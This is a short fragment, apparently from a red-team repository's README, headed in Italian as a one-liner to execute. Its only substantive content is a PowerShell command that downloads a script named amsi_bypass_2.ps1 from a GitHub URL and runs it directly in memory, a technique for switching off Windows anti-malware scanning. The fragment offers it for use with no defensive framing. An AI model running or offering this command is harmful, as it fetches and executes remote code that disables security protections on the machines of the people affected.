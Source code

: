 ## Esecuzione one-liner
[System.Net.ServicePointManager]::SecurityProtocol = [System.Net.SecurityProtocolType]::Tls12;iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/dottorvenom/RedTeam/main/amsi_bypass_2.ps1');